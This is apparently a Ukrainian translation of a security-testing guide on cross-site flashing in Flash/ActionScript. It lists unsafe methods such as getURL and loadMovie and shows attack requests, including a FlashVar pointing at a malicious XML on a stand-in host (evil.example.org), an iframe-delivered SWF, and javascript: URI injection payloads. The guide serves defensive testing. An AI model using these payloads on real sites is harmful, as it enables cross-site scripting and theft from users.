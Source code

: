 Вищенаведений код може бути атакований за допомогою запиту:

http://victim/file.swf?language=http://evil.example.org/malicious.xml?
Небезпечні методи

Коли точку входу ідентифіковано, дані, які вона представляє, можуть бути використані небезпечними методами. Якщо дані не відфільтровано чи перевірено, це може призвести до певних уразливостей.

Небезпечними методами з версії r47 є:

     loadVariables()
     loadMovie()
     getURL()
     loadMovie()
     loadMovieNum()
     FScrollPane.loadScrollContent()
     LoadVars.load
     LoadVars.send
     XML.load( 'url')
     LoadVars.load( 'url')
     Sound.loadSound( 'url' , isStreaming );
     NetStream.play( 'url');
     flash.external.ExternalInterface.call(_root.callback)
     htmlТекст

Експлуатація Reflected XSS

Swf-файл має бути розміщено на хості жертви, і слід використовувати техніку відображеного XSS. Зловмисник змушує веб-переглядач завантажити чистий swf-файл безпосередньо в рядок розташування (шляхом переспрямування чи соціальної інженерії) або завантажуючи його через iframe зі зловмисної сторінки:

<iframe src='http://victim/path/to/file.swf'></iframe>

У цій ситуації веб-переглядач самостійно створить HTML-сторінку, як якщо б вона була розміщена на хості-жертві.
GetURL (AS2) / NavigateToURL (AS3)

Функція GetURL у ActionScript 2.0 і NavigateToURL у ActionScript 3.0 дозволяє фільму завантажувати URI у вікно браузера. Якщо невизначена змінна використовується як перший аргумент для getURL:

getURL(_root.URI,'_targetFrame');

Або якщо FlashVar використовується як параметр, який передається у функцію navigateToURL:

var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
navigateToURL(запит);

Тоді це означатиме, що можна викликати JavaScript у тому самому домені, де розміщено фільм, запитуючи:

http://victim/file.swf?URI=javascript:evilcode

getURL('javascript:evilcode','_self');

Те саме можливо, коли лише деяка частина getURL контролюється за допомогою ін’єкції DOM із ін’єкцією Flash JavaScript:

getUrl('javascript:function('+_root.arg+')')

